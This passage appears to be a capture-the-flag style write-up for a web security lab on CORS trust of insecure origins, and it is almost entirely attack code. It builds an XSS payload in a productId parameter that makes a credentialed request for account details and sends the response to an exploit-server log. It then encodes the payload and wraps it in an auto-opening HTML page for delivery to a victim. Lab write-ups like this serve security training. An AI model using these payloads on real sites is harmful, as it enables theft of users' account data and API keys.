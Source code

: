 In one-line:

```
<script>var req = new XMLHttpRequest();var url = ("https://0a1e008d0469f84380c3c126007600c7.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>
```

Added to the XSS exploit:

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1
```

The “+” sign is deleted:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/7.png)

We will change “+” with "%2B

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url %2B "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};</script>&storeId=1
```

Now we get the request in the logs:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/8.png)

Now we will add it to a payload like this so it opens when the message is received:

```
<body onload="window.open('URL')">
```

There are problems with nested quotes and double quotes so I will create a parameter “payload” with the CORS payload and send it to the victim:

```
<html>
<script>
var payload = "var req = new XMLHttpRequest();var url = (\"https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net\");req.onload = retrieveKeys;req.open('GET', url %2B \"/accountDetails\",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};" ;
</script>

<body onload="window.open('http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>'+payload+'</script>&storeId=1')">
</html>
```
